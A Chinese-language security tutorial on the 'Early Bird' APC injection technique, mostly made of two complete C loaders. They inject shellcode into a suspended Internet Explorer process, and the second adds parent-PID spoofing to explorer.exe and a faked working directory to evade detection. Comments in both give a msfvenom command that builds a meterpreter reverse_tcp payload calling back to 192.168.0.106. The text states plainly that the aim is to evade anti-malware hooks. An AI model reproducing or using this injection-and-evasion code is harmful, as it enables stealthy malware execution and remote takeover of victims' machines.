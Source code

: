 # Early Bird

## Early Bird简介

Early Bird是一种简单而强大的技术，Early Bird本质上是一种APC注入与线程劫持的变体，由于线程初始化时会调用ntdll未导出函数NtTestAlert，该函数会清空并处理APC队列，所以注入的代码通常在进程的主线程的入口点之前运行并接管进程控制权，从而避免了反恶意软件产品的钩子的检测，同时获得一个合法进程的环境信息。

## Early Bird流程

1. 创建一个挂起的进程\(通常是windows的合法进程\)
2. 在挂起的进程内申请一块可读可写可执行的内存空间
3. 往申请的空间内写入shellcode
4. 将APC插入到该进程的主线程
5. 恢复挂起进程的线程

![](../.gitbook/assets/image%20%2812%29.png)

## 代码实现

```text
#include <stdio.h>
#include <windows.h>
//msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
unsigned char shellcode[] = "";
int main() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(STARTUPINFO);

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, pi.hThread, NULL);
    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);

    return 0;
}
```

## 配合FakePPID和FakeCurrentDirectory使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
    unsigned char shellcode[] = ("");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    SetCurrentDirectoryA("C:\\Program Files\\internet explorer\\");

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProcess, sizeof(HANDLE), NULL, NULL);
    
    
    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2835%29.png)

![](../.gitbook/assets/image%20%288%29.png)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://blog.csdn.net/weixin\_42052102/article/details/83348780" %}





